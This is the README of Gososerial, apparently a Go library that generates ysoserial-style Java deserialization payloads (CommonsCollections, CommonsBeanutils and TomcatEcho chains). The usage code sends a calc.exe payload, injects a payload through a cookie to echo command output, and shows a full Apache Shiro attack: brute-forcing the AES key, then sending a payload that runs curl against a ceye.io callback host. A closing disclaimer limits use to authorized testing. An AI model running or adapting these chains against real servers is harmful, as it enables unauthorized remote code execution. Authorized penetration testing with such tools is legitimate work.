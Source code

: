 # Gososerial

## 介绍

- ysoserial是java反序列化安全方面著名的工具
  
- 无需java环境，无需下载ysoserial.jar文件
  
- 输入命令直接获得payload，方便编写安全工具

- 目前已支持CC1-CC7，K1-K4和CB1链

- 支持K1和K2的TomcatEcho，HTTP头可自行取名

## Introduce

- Ysoserial is a well-known tool for Java deserialization security

- No Java environment and no need to download ysoserial.jar file

- Enter the command to directly obtain the payload, which is convenient for writing security tools

- Support CommonsCollections1-7, K1-K4, CommonsBeanutils1 now

- Support TomcatEcho K1-K2, and the HTTP header name can be edited

## Example

CommonsCollections1 Payload

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)


List of Supported

![](https://github.com/EmYiQing/Gososerial/blob/master/img/2.png)

## Quick Start

```shell
go get github.com/EmYiQing/Gososerial
```

```go
package main

import gososerial "github.com/EmYiQing/Gososerial"

func main()  {
	payload := gososerial.GetCC1("calc.exe")
	......
	sendPayload(payload)
	......
}
```

TomcatEcho

```go
// Testecho: expr 10 '*' 10 -> expr 10 '*' 10
// Testcmd: expr 10 '*' 10 -> 100
payload := gososerial.GetCCK2TomcatEcho("Testecho", "Testcmd")

req.Cookie = payload
req.Header["Testecho"] = "gososerial"
req.Method = "POST"
resp := httputil.sendRequest(req)

if resp.Header["Testecho"] == "gososerial" {
	log.Info("find tomcat echo")
}
```

Example

```go
func main() {
	// Shiro Scan Code
	target := "http://shiro_ip/"
	// Brust Shiro AES Key 
	key := shiro.CheckShiroKey(target)
	if key != "" {
		log.Info("find key: %s", key)
	}
	// Use CommonsCollections5 Payload
	var payload []byte
	payload = gososerial.GetCC5("curl xxxxx.ceye.io")
	// Send Cookies Encrypted By AES
	shiro.SendPayload(key, payload, target)
	// Receive Results Using Dnslog API
	if ceye.CheckResult("your_ceye_token") {
		log.Info("find shiro!")
	}
}
```

## About

参考了xray中p师傅的代码

**ysoserial**: https://github.com/frohoff/ysoserial

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n

## 免责申明

未经授权许可使用Gososerial攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的。
